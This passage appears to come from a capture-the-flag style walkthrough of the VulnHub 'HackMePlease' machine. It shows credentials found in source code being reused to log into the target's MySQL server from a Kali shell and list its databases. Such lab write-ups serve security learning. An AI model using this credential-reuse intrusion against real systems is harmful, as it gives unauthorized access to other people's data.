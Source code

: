 	![](images/Pasted%20image%2020220201014551.png)
	- seeddms:seeddms
	
## TCP/3306 - mysql
1. Access SQL w/ seeddms:seeddms
	```
	┌──(root💀kali)-[~/vulnHub/HackMePlease]
	└─# mysql -h $ip -u seeddms -p
	Enter password: seeddms
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MySQL connection id is 2015
	Server version: 8.0.25-0ubuntu0.20.04.1 (Ubuntu)

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MySQL [(none)]> show databases;
	+--------------------+
	| Database           |
	+--------------------+
	| information_schema |
	| mysql              |
	| performance_schema |
	| seeddms            |
	| sys                |
	+--------------------+
	5 rows in set (0.160 sec)
